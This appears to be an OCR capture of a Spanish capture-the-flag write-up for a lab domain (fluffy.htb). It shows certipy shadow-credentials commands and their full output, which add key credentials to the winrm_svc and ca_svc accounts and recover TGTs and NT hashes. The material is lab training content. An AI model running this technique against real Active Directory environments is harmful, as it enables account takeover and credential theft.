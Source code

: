 Podemos utilizar la herramienta `certipy` que contiene un modo que automatiza el proceso de añadir `msDS-KeyCredentialLink` al usuario víctima y la autenticación, de forma que obtenemos directamente credenciales en caché y el hash NT de la cuenta `winrm_svc`

~~~ bash
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account winrm_svc -dc-ip 10.10.11.69

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '0dd3e542-ed13-3915-9d75-e6c61baa0070'
[*] Adding Key Credential with device ID '0dd3e542-ed13-3915-9d75-e6c61baa0070' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '0dd3e542-ed13-3915-9d75-e6c61baa0070' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767
~~~

Además, podremos obtener el hash NT de la cuenta `ca_svc` y `ldap_svc

~~~ bash
certipy shadow auto -u p.agila@fluffy.htb -p 'prometheusx-303' -account ca_svc -dc-ip 10.10.11.69 

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b675910c-36cd-41c7-f2b7-16072b190199'
[*] Adding Key Credential with device ID 'b675910c-36cd-41c7-f2b7-16072b190199' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID 'b675910c-36cd-41c7-f2b7-16072b190199' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@fluffy.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8
~~~
